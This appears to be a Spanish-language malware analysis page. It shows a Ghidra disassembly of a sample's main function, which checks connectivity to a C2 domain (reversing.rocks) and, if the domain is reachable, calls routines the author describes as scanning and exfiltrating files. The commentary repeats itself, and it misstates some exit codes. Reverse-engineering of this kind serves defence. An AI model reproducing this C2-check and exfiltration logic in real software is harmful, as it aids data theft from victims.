 ```

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_004011a0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
                             FUN_004011a0                                    XREF[1]:     ___tmainCRTStartup:004013c5(c)
        004011a0 6a 00           PUSH       0x0
        004011a2 6a 01           PUSH       0x1
        004011a4 68 2c 21        PUSH       s_http://reversing.rocks/_0040212c               = "http://reversing.rocks/"
                 40 00
        004011a9 ff 15 ac        CALL       dword ptr [->WININET.DLL::InternetCheckConnect   = 0000239e
                 20 40 00
        004011af 85 c0           TEST       EAX,EAX
        004011b1 74 0d           JZ         LAB_004011c0
        004011b3 e8 78 ff        CALL       FUN_00401130                                     undefined4 FUN_00401130(void)
                 ff ff
        004011b8 6a 00           PUSH       0x0
        004011ba ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
                             LAB_004011c0                                    XREF[1]:     004011b1(j)
        004011c0 6a 01           PUSH       0x1
        004011c2 ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
             assume FS_OFFSET = <UNKNOWN>
        004011c8 cc              ??         CCh
             assume FS_OFFSET = 0xffdff000
                             LAB_004011c9                                    XREF[1]:     004020d4(*)
        004011c9 b8 4d 5a        MOV        EAX,0x5a4d
                 00 00
        004011ce 66 39 05        CMP        word ptr [IMAGE_DOS_HEADER_00400000],AX
                 00 00 40 00
        004011d5 74 04           JZ         LAB_004011db
                             LAB_004011d7                                    XREF[2]:     004011eb(j), 004011f9(j)
        004011d7 33 c0           XOR        EAX,EAX
        004011d9 eb 34           JMP        LAB_0040120f
                             LAB_004011db                                    XREF[1]:     004011d5(j)
        004011db 8b 0d 3c        MOV        ECX,dword ptr [IMAGE_DOS_HEADER_00400000.e_lfa
                 00 40 00
        004011e1 81 b9 00        CMP        dword ptr [ECX + 0x400000]=>IMAGE_NT_HEADERS32
                 00 40 00
                 50 45 00 00
        004011eb 75 ea           JNZ        LAB_004011d7
        004011ed b8 0b 01        MOV        EAX,0x10b
                 00 00
        004011f2 66 39 81        CMP        word ptr [ECX + 0x400018]=>IMAGE_NT_HEADERS32_
                 18 00 40 00
        004011f9 75 dc           JNZ        LAB_004011d7
        004011fb 33 c0           XOR        EAX,EAX
        004011fd 83 b9 74        CMP        dword ptr [ECX + 0x400074]=>IMAGE_NT_HEADERS32
                 00 40 00 0e
        00401204 76 09           JBE        LAB_0040120f
        00401206 39 81 e8        CMP        dword ptr [ECX + 0x4000e8]=>IMAGE_NT_HEADERS32
                 00 40 00
        0040120c 0f 95 c0        SETNZ      AL
                             LAB_0040120f                                    XREF[2]:     004011d9(j), 00401204(j)
        0040120f 6a 01           PUSH       0x1
        00401211 a3 30 30        MOV        [DAT_00403030],EAX
                 40 00
        00401216 ff 15 44        CALL       dword ptr [->MSVCR120.DLL::__set_app_type]       = 00002440
                 20 40 00
        0040121c 59              POP        ECX
        0040121d 6a ff           PUSH       -0x1
        0040121f ff 15 24        CALL       dword ptr [->KERNEL32.DLL::EncodePointer]        = 000025be
                 20 40 00
        00401225 8b 0d 64        MOV        ECX,dword ptr [->MSVCR120.DLL::_fmode]           = 000024b4
                 20 40 00
        0040122b a3 80 33        MOV        [DAT_00403380],EAX
                 40 00
        00401230 a3 84 33        MOV        [DAT_00403384],EAX
                 40 00
        00401235 a1 54 30        MOV        EAX,[DAT_00403054]
                 40 00
        0040123a 89 01           MOV        dword ptr [ECX],EAX
        0040123c 8b 0d 68        MOV        ECX,dword ptr [->MSVCR120.DLL::_commode]         = 000024be
                 20 40 00
        00401242 a1 48 30        MOV        EAX,[DAT_00403048]
                 40 00
        00401247 89 01           MOV        dword ptr [ECX],EAX
        00401249 e8 29 05        CALL       FUN_00401777                                     undefined FUN_00401777(void)
                 00 00
        0040124e e8 45 02        CALL       FUN_00401498                                     undefined4 FUN_00401498(void)
                 00 00
        00401253 83 3d 00        CMP        dword ptr [DAT_00403000],0x0                     = 00000001h
                 30 40 00 00
        0040125a 75 0c           JNZ        LAB_00401268
        0040125c 68 98 14        PUSH       FUN_00401498
                 40 00
        00401261 ff 15 54        CALL       dword ptr [->MSVCR120.DLL::__setusermatherr]     = 0000247a
                 20 40 00
        00401267 59              POP        ECX
                             LAB_00401268                                    XREF[1]:     0040125a(j)
        00401268 e8 4a 05        CALL       FUN_004017b7                                     undefined FUN_004017b7(void)
                 00 00
        0040126d 83 3d 10        CMP        dword ptr [DAT_00403010],-0x1                    = FFFFFFFEh
                 30 40 00 ff
        00401274 75 09           JNZ        LAB_0040127f
        00401276 6a ff           PUSH       -0x1
        00401278 ff 15 50        CALL       dword ptr [->MSVCR120.DLL::_configthreadlocale]  = 00002464
                 20 40 00
        0040127e 59              POP        ECX
                             LAB_0040127f                                    XREF[1]:     00401274(j)
        0040127f 33 c0           XOR        EAX,EAX
        00401281 c3              RET
        00401282 68              ??         68h    h
        00401283 97              ??         97h                                              ?  ->  00401797
        00401284 17              ??         17h
        00401285 40              ??         40h    @
        00401286 00              ??         00h
        00401287 e8              ??         E8h
        00401288 d6              ??         D6h
        00401289 04              ??         04h
        0040128a 00              ??         00h
        0040128b 00              ??         00h
        0040128c a1              ??         A1h
        0040128d 50              ??         50h    P                                         ?  ->  00403050

```

La función FUN_004011a0 es el punto de entrada principal del malware, referenciada desde ___tmainCRTStartup. Su función es comprobar la conectividad a internet y ejecutar la lógica maliciosa principal si la conexión con el C2 (Command & Control) está activa.


### 🧠 RESUMEN DEL COMPORTAMIENTO
1️⃣	Comprueba si hay conexión con http://reversing.rocks/ usando InternetCheckConnectionA.  
2️⃣	Si hay conexión, llama a FUN_00401130 (que inicializa WinINet y lanza la exfiltración de datos).  
3️⃣	Si no hay conexión, termina el proceso con exit(1).  

## ANÁLISIS DETALLADO
### 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

### 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
Ya analizamos, esta función [FUN_00401130](FUN_00401130.md):  
- Llama a InternetOpenA, InternetConnectA  
- Inicia comunicación con el servidor remoto  
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md)  

### 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
    
## 🔍 ANÁLISIS DETALLADO
### 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

### 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
- Llama a InternetOpenA, InternetConnectA
- Inicia comunicación con el servidor remoto
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md) 

### 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
